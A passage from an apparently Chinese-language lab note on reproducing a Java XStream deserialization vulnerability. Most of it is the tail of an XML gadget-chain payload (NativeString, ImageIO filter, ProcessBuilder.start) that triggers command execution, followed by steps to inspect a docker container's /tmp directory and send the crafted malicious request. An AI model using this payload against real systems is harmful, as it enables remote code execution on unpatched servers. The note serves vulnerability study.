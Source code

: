 ```http
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

可以先进入 docker 容器的 `/tmp` 目录瞅一眼

![image-20230608073504920](http://cdn.ayusummer233.top/DailyNotes/202306080735948.png)

> 或者用 VSCode 的 Docker + DevContainer 插件可以使用 VSCode 打开容器
>
> ![image-20230608073634019](http://cdn.ayusummer233.top/DailyNotes/202306080736058.png)

发送构造好的恶意请求
